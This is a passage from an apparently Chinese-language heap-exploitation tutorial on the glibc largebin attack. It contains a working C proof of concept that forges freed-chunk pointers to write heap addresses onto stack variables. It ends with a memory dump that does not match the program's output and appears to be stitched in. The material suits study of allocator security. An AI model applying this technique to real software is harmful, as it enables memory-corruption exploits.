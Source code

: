 ```cpp
          bck->fd = victim;

```

放入 `largebin` 的逻辑在最后，经过上面的了解，我们不难知道，假设我们在 `largebin` 中已经放入了一个 `chunkA` 之后再放入一个比其稍大的 `chunkB` ，提前在b的 `bk` 和 `bk_next_size` 位置写入` addr1-0x10` , `addr2-0x20` 就可以在这两个地址写入b的地址，也就是可以通过 **lagrbin_attack** 强制完成一次任意地址写入一个堆地址

### POC

```c
  1 // gcc -g -no-pie hollk.c -o hollk
  2 #include <stdio.h>
  3 #include <stdlib.h>
  4 
  5 int main()
  6 {
  7 
  8     unsigned long stack_var1 = 0;
  9     unsigned long stack_var2 = 0;
 10 
 11     fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
 12     fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);
 13 
 14     unsigned long *p1 = malloc(0x320);
 15     malloc(0x20);
 16     unsigned long *p2 = malloc(0x400);
 17     malloc(0x20);
 18     unsigned long *p3 = malloc(0x400);
 19     malloc(0x20);
 20 
 21     free(p1);
 22     free(p2);
 23 
 24     void* p4 = malloc(0x90);
 25 	//触发`__malloc_cosilidate` p1进入largebin， p2一部分被切割 剩下的成为 `last_reminder` 留在unsortedbin
 26     free(p3);
 27 
 28     p2[-1] = 0x3f1;
 29     p2[0] = 0;
 30     p2[2] = 0;
 31     p2[1] = (unsigned long)(&stack_var1 - 2);
 32     p2[3] = (unsigned long)(&stack_var2 - 4);
 33 
 34     malloc(0x90);
 35 	// 再次触发 `__malloc-consilidate` p2进入largebin，之前在p2已经设置好bk和bk_nextsize 直接触发largebinattack 
 36     fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
 37     fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);
 38 
 39     return 0;
 40 }

```


[0x55cfb956d2a0]: 0x1122334455667788  0x1122334455667788
[0x55cfb956d2b0]: 0x1122334455667788  0x1122334455667788
[0x55cfb956d2c0]: 0x1122334455667788  0x1122334455667788
[0x55cfb956d2d0]: 0x1122334455667788  0x1122334455667788
[0x55cfb956d2a0]: 0x00007f648ba40770  0x00007f648ba40870
[0x55cfb956d2b0]: 0x00007f648ba40770  0x00007f648ba40770
[0x55cfb956d2c0]: 0x00007f648ba40770  0x00007f648ba40770
[0x55cfb956d2d0]: 0x00007f648ba40770  0x00007f648ba40870
